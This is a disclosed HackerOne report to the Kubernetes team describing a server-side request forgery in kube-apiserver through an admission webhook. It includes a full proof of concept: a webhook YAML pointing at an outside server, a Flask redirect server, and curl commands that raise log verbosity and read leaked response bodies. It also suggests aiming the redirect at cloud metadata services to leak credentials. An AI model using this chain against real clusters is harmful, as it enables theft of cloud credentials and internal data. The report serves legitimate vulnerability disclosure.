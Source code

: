 # SSRF for kube-apiserver cloudprovider scene

## Report Details
- **Report ID**: 941178
- **URL**: https://hackerone.com/reports/941178
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-07-24T12:41:44.871Z
- **Disclosed**: 2021-10-07T18:03:40.296Z

## Reporter
- **Username**: lazydog
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: kubernetes

## Vulnerability Information
Report Submission Form

## Summary:
attacker can create admissionwebhook cause ssrf in cloudprovider server.
cloudprovider like GKE AKS EKS.

## Kubernetes Version:
kubernetes v1.18.6

## Component Version:
Docker version 19.03.6, build 369ce74a3c

## Steps To Reproduce:
1. use follwing command create v1.18.6 kubernetes, wait for the download  process done. 

`minikube start --vm-driver=none --kubernetes-version='v1.18.6'`

2.edit `kube-apiserver` options in following path.

```
/etc/kubernetes/manifests/kube-apiserver.yaml

add some options to  spec.containers.command field.  see pic1
--log-dir=/var/log
--logtostderr=false
```

{F920720}

3.save following yaml file to disk as poc1.yaml, and run command` kubectl create poc1.yaml`.

poc1.yaml 
```
apiVersion: admissionregistration.k8s.io/v1
kind: ValidatingWebhookConfiguration
metadata:
  name: test.config.xxx.io
webhooks:
- name: test.config.xxx.io
  rules:
  - apiGroups:   [""]
    apiVersions: ["v1", "v1beta1"]
    operations:  ["CREATE","DELETE","UPDATE"]
    resources:   ["serviceaccounts"]
    scope:       "*"
  clientConfig:
    # modify with your poc2 webserver
    url: "https://lazydog.me/aa"
    # if webserver using self-signed certificate must be add caBundle
    # caBundle: ""
  admissionReviewVersions: ["v1", "v1beta1"]
  sideEffects: None
  timeoutSeconds: 5
```

4.use `pip install Flask` to install flask deps, and run `FLASK_ENV=development FLASK_APP=poc1 flask run`. if you using self-signed certificate must be add `--cert PATH --key PATH` arguments to command.

poc2.py
```python
from flask import Flask, redirect, request, Response

app = Flask(__name__)

app.port = 80


@app.route('/<path:path>', methods=['POST','GET'])
def index(path=''):
    resp = ''
    print(request.headers)
    if path == 'test':
        res = Response("test")
        res.headers["Content-Type"] = "application/vnd.kubernetes.protobuf"
        return res

    return redirect('http://www.tencent.com/')
```

5.use `kubectl proxy &` start a apiserver proxy to localhost,and set` klog` level to 10. if not set klog level to 10 is can only recv http failed code response body.
```
curl -XPUT --data "10" http://localhost:8001/debug/flags/v
```

6.now we can create a serviceaccount let apiserver to request our evil webserver use this command `kubectl create sa testpoc`.

{F920762}

7.use `curl http://localhost:8001/logs/kube-apiserver.INFO` to find full response body, is may be include `Response Body:` strings.

{F920768}



## Supporting Material/References:

- klog set to 10 root cause. https://github.com/kubernetes/client-go/blob/31e286ee1926a84e0bfd4c8c8c77b3816f98244a/rest/request.go#L1072
- This link let our know gke is enabled logs handler https://groups.google.com/g/kubernetes-users/c/gHHhl0hI7GU

## Impact

I think this case is like ` CVE-2020–8555`,  attacker can cause a full response body ssrf in cloudprovider inner server.

if redirect url is metadata server maybe can leak some credentials or other sensitive information.

## Attachments
- pic1.png
- pic2.png
- pic3.png
